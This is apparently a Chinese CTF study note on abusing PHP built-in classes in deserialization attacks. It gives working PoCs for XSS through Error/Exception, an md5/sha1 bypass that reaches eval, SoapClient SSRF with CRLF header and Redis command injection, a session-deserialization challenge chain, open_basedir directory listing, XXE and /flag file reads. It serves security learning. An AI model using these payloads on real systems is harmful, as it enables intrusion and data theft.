






# 利用php内置类Error/Exception进行xss

## Error

php7中存在一个Error类,它里面存在一个toString魔术方法,在一定的情况下能够造成xss漏洞

测试代码

```
<?php
highlight_file(__FILE__);
$a = unserialize($_GET['lemon']);
echo $a;
```

poc

```
<?php
$a = new Error("<script>alert('hacker')</script>");
echo urlencode(serialize($a));
```

效果:


## Exception

适用于php5、7版本,能够造成XSS漏洞

测试代码不变

poc

```
<?php
$a = new Exception("<script>alert(/hacker/)</script>");
echo urlencode(serialize($a));
```


# 利用Error/Exception内置类绕过hash比较

### Error 类

**Error** 是所有PHP内部错误类的基类，该类是在PHP 7.0.0 中开始引入的。

**类摘要：**

```
Error implements Throwable {
    /* 属性 */
    protected string $message ;
    protected int $code ;
    protected string $file ;
    protected int $line ;
    /* 方法 */
    public __construct ( string $message = "" , int $code = 0 , Throwable $previous = null )
    final public getMessage ( ) : string
    final public getPrevious ( ) : Throwable
    final public getCode ( ) : mixed
    final public getFile ( ) : string
    final public getLine ( ) : int
    final public getTrace ( ) : array
    final public getTraceAsString ( ) : string
    public __toString ( ) : string
    final private __clone ( ) : void
}
```

**类属性：**

- message：错误消息内容
- code：错误代码
- file：抛出错误的文件名
- line：抛出错误在该文件中的行数

**类方法：**

- [`Error::__construct`](https://www.php.net/manual/zh/error.construct.php) — 初始化 error 对象
- [`Error::getMessage`](https://www.php.net/manual/zh/error.getmessage.php) — 获取错误信息
- [`Error::getPrevious`](https://www.php.net/manual/zh/error.getprevious.php) — 返回先前的 Throwable
- [`Error::getCode`](https://www.php.net/manual/zh/error.getcode.php) — 获取错误代码
- [`Error::getFile`](https://www.php.net/manual/zh/error.getfile.php) — 获取错误发生时的文件
- [`Error::getLine`](https://www.php.net/manual/zh/error.getline.php) — 获取错误发生时的行号
- [`Error::getTrace`](https://www.php.net/manual/zh/error.gettrace.php) — 获取调用栈（stack trace）
- [`Error::getTraceAsString`](https://www.php.net/manual/zh/error.gettraceasstring.php) — 获取字符串形式的调用栈（stack trace）
- [`Error::__toString`](https://www.php.net/manual/zh/error.tostring.php) — error 的字符串表达
- [`Error::__clone`](https://www.php.net/manual/zh/error.clone.php) — 克隆 error

### Exception 类

**Exception** 是所有异常的基类，该类是在PHP 5.0.0 中开始引入的。

**类摘要：**

```
Exception {
    /* 属性 */
    protected string $message ;
    protected int $code ;
    protected string $file ;
    protected int $line ;
    /* 方法 */
    public __construct ( string $message = "" , int $code = 0 , Throwable $previous = null )
    final public getMessage ( ) : string
    final public getPrevious ( ) : Throwable
    final public getCode ( ) : mixed
    final public getFile ( ) : string
    final public getLine ( ) : int
    final public getTrace ( ) : array
    final public getTraceAsString ( ) : string
    public __toString ( ) : string
    final private __clone ( ) : void
}
```

**类属性：**

- message：异常消息内容
- code：异常代码
- file：抛出异常的文件名
- line：抛出异常在该文件中的行号

**类方法：**

1. [`Exception::__construct`](https://www.php.net/manual/zh/exception.construct.php) — 异常构造函数
2. [`Exception::getMessage`](https://www.php.net/manual/zh/exception.getmessage.php) — 获取异常消息内容
3. [`Exception::getPrevious`](https://www.php.net/manual/zh/exception.getprevious.php) — 返回异常链中的前一个异常
4. [`Exception::getCode`](https://www.php.net/manual/zh/exception.getcode.php) — 获取异常代码
5. [`Exception::getFile`](https://www.php.net/manual/zh/exception.getfile.php) — 创建异常时的程序文件名称
6. [`Exception::getLine`](https://www.php.net/manual/zh/exception.getline.php) — 获取创建的异常所在文件中的行号
7. [`Exception::getTrace`](https://www.php.net/manual/zh/exception.gettrace.php) — 获取异常追踪信息
8. [`Exception::getTraceAsString`](https://www.php.net/manual/zh/exception.gettraceasstring.php) — 获取字符串类型的异常追踪信息
9. [`Exception::__toString`](https://www.php.net/manual/zh/exception.tostring.php) — 将异常对象转换为字符串
10. [`Exception::__clone`](https://www.php.net/manual/zh/exception.clone.php) — 异常克隆

我们可以看到，在Error和Exception这两个PHP原生类中内只有 `__toString` 方法，这个方法用于将异常或错误对象转换为字符串。

我们以Error为例，我们看看当触发他的 `__toString` 方法时会发生什么：

测试代码:

```
<?php
$a=new Error('phpinfo()',1);
$b=new Error('phpinfo()');
echo $a;
echo '</br>';
echo $b;
```


可以看到尽管传入的参数不同,但是输出的结果仍然是相同的

同理Exception类也是如此

测试代码

```
<?php
show_source(__FILE__);
class CDUTSEC
{
    public $var1;
    public $var2;

    function __construct($var1, $var2)
    {
        $var1 = $var1;
        $var2 = $var2;
    }

    function __destruct()
    {
        echo md5($this->var1);
        echo md5($this->var2);
        if (($this->var1 != $this->var2) && (md5($this->var1) === md5($this->var2))) {
            eval($this->var1);
        }
    }
}

unserialize($_GET['payload']);
```

poc


```
如果我$a和$b不在同一排,其实是没用的
```



看到个带绕过的就想记录下来

### [2020 极客大挑战]Greatphp

进入题目，给出源码：

```
<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;

    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }

        }
    }
}

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}

?>
```

一样的是用Error或者Exception类来绕过md5和sha1

但是这道题把php标签,括号还有引号全部ban完了

php标签可以用<?=绕过

除去括号我们读取函数可以用include '/flag'来绕过

引号的话就用取反绕过(这里取反不太会还是要去看原文)

poc

```
<?php
class SYCLOVER{
    public $syc;
    public $lover;
}
$a=new SYCLOVER();
$str = "?><?=include~".urldecode("%D0%99%93%9E%98").";?>";
/* 
或使用[~(取反)][!%FF]的形式，
即: $str = "?><?=include[~".urldecode("%D0%99%93%9E%98")."][!.urldecode("%FF")."]?>";    

$str = "?><?=include $_GET[_]?>"; 
*/
$t=new Exception($str);$s=new Exception($str,1);
$a->syc=$t;
$a->lover=$s;
echo urlencode(serialize($a));
```

参考链接:[https://xz.aliyun.com/t/9293](https://xz.aliyun.com/t/9293)

# 利用SoapClient 类进行 SSRF

PHP 的内置类 SoapClient 是一个专门用来访问web服务的类，可以提供一个基于SOAP协议访问Web服务的 PHP 客户端。

我用的版本是php5,要先在php-ini里面把php_soap.dll前面的分号去掉不然会报错

类摘要如下：

```
SoapClient {
    /* 方法 */
    public __construct ( string|null $wsdl , array $options = [] )
    public __call ( string $name , array $args ) : mixed
    public __doRequest ( string $request , string $location , string $action , int $version , bool $oneWay = false ) : string|null
    public __getCookies ( ) : array
    public __getFunctions ( ) : array|null
    public __getLastRequest ( ) : string|null
    public __getLastRequestHeaders ( ) : string|null
    public __getLastResponse ( ) : string|null
    public __getLastResponseHeaders ( ) : string|null
    public __getTypes ( ) : array|null
    public __setCookie ( string $name , string|null $value = null ) : void
    public __setLocation ( string $location = "" ) : string|null
    public __setSoapHeaders ( SoapHeader|array|null $headers = null ) : bool
    public __soapCall ( string $name , array $args , array|null $options = null , SoapHeader|array|null $inputHeaders = null , array &$outputHeaders = null ) : mixed
}
```

该类的构造函数如下：

```
public SoapClient :: SoapClient(mixed $wsdl [，array $options ])
```

- 第一个参数是用来指明是否是wsdl模式，将该值设为null则表示非wsdl模式。
- 第二个参数为一个数组，如果在wsdl模式下，此参数可选；如果在非wsdl模式下，则必须设置location和uri选项，其中location是要将请求发送到的SOAP服务器的URL，而uri 是SOAP服务的目标命名空间。

在我kali的2333端口开启一个监听

```
nc -lvp 2333
```

然后执行下面的php代码

```
<?php
$a = new SoapClient(null,array('location'=>'http://127.0.0.1:2333/aaa', 'uri'=>'test'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```




得到http包

不过这个SoapClient类的ssrf仅限于http和https的协议,但是如果存在CRLF漏洞的话我们就可以在其中插入cookie

测试代码如下

```
<?php
$target = 'http://127.0.0.1:2333/';
$a = new SoapClient(null,array('location' => $target, 'user_agent' => "WHOAMI\r\nCookie: PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4", 'uri' => 'test'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```


可以看到请求包里面返回了我们设置的cookie

如何去post数据呢

可以看到我们的uri设置的是SOAPAction,但是post数据的时候Content-Type是application/x-www-form-urlencoded,所以我们如果要去修改Content-Type的话就需要从其上方的user-agent来修改,将原来的 Content-Type 挤下去，从而再插入一个新的 Content-Type .

测试代码

```
<?php

$target = 'http://127.0.0.1:2333/';

$post_data = 'data=whoami';

$headers = array(

  'X-Forwarded-For: 127.0.0.1',

  'Cookie: PHPSESSID=3stu05dr969ogmprk28drnju93'

);

$a = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '. (string)strlen($post_data).'^^^^'.$post_data,'uri'=>'test'));

$b = serialize($a);

$b = str_replace('^^',"\n\r",$b);

echo $b;

$c = unserialize($b);

$c->a();  // 随便调用对象中不存在的方法, 触发__call方法进行ssrf

?>
```

效果如下图



这样就可以发送数据data=whoami

插入redis命令利用http协议攻击Redis

测试代码

```
<?php
$target = 'http://127.0.0.1:2333/';
$poc = "CONFIG SET dir /var/www/html";
$a = new SoapClient(null,array('location' => $target, 'uri' => 'hello^^'.$poc.'^^hello'));
$b = serialize($a);
$b = str_replace('^^',"\n\r",$b); 
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```



可以看到插入的Redis命令

CONFIG SET dir /var/www/html

## bestphp's revenge

这道题看了wp才知道原来还有个flag.php


访问下flag.php


REMOTE_ADDR等于127.0.0.1时，就会在session中插入flag,再结合源码中的var_dump($_SESSION)就能得到flag.

那我们就要插入一个session,并且要让我们的REMOTE_ADDR等于127.0.0.1

这不就是ssrf和crlf了？

POC:

```
<?php

$target = "http://127.0.0.1/flag.php";

$attack = new SoapClient(null,array('location' => $target,

  'user_agent' => "N0rth3ty\r\nCookie: PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4\r\n",

  'uri' => "123"));

$payload = urlencode(serialize($attack));

echo $payload;
```

得到序列化串:

```
O%3A10%3A%22SoapClient%22%3A4%3A%7Bs%3A3%3A%22uri%22%3Bs%3A3%3A%22123%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A11%3A%22_user_agent%22%3Bs%3A56%3A%22N0rth3ty%0D%0ACookie%3A+PHPSESSID%3Dtcjr6nadpk3md7jbgioa6elfk4%0D%0A%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D
```

当然因为REMOTE_ADDR要为127.0.0.1,所以我们的目标url就要修改为`http://127.0.0.1/flag.php`

然后通过CRLF来自定义一个cookie,插入我们的session

不过这里没有明显的反序列化的点,但是看到用一个session_start

猜想应该是要利用session的反序列化漏洞,于是将这段session用php_serialize的处理器储存起来

本来应该是用ini_set()来改变session储存格式的,但是我们序列化对象有一个数组,而这个函数却不支持数组,所以我们只能用session_start()函数来代替了

但是我们应该怎么去设置这里的session.serialize_handler呢？

注意到源码中存在一个call_user_func()函数`call_user_func($_GET['f'], $_POST);`

我们传参

```
GET:?f=session_start&name=|O%3A10%3A%22SoapClient%22%3A4%3A%7Bs%3A3%3A%22uri%22%3Bs%3A3%3A%22123%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A11%3A%22_user_agent%22%3Bs%3A56%3A%22N0rth3ty%0D%0ACookie%3A+PHPSESSID%3Dtcjr6nadpk3md7jbgioa6elfk4%0D%0A%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D

POST:serialize_handler=php_serialize
```

传值的时候要加竖线(|)来触发session反序列化

这只是第一步传参


此时最下面那个`call_user_func($b,$a)`函数是这样的:

```
call_user_func('implode',array(reset($_SESSION),'welcome_to_the_lctf2018'))
```

这样无法触发我们的session反序列化,也无法触发ssrf漏洞,目前只是存储了一个session值

如果这样:

```
call_user_func(array(reset($_SESSION),'welcome_to_the_lctf2018'))
```

则可以调用这个数组里面的第一个参数作为类名,第二个参数作为方法

因为不存在welcome_to_the_lctf2018方法

所以会触发soapclient类中的__call方法来ssrf

那我们就要重新对$b赋值,让他变为call_user_func

extract()



所以利用extract函数再次传参


可以看到已经反序列化了

然后在application里面修改cookie的PHPSESSION为我们自定义的session刷新页面


flag就被var_dump($_SESSION)带出来了

# 利用DirectoryIterator 类绕过 open_basedir

DirectoryIterator 类提供了一个用于查看文件系统目录内容的简单接口，该类是在 PHP 5 中增加的一个类。

DirectoryIterator与glob://协议结合将无视open_basedir对目录的限制，可以用来列举出指定目录下的文件。

测试代码：

```
<?php
$dir = $_GET['whoami'];
$a = new DirectoryIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');
}
?>
```

直接用whoami=glob:///*列出根目录下的所有文件




glob://*列出当前目录所有文件

glob://../*上级目录

# 利用 SimpleXMLElement 类进行 XXE

SimpleXMLElement 这个内置类用于解析 XML 文档中的元素


可以看到通过设置第三个参数 data_is_url 为 `true`，我们可以实现远程xml文件的载入。第二个参数的常量值我们设置为`2`即可。第一个参数 data 就是我们自己设置的payload的url地址，即用于引入的外部实体的url。

# 利用SplFileObject类进行文件读取

`new SplFileObject('/flag')`


参考链接:https://xz.aliyun.com/t/9293#toc-12

[【POP链&原生类&伪协议】记一道2021浙江省赛的Web题 - Lxxx (xiinnn.com)](https://www.xiinnn.com/article/5ba4634b.html#原生类：)

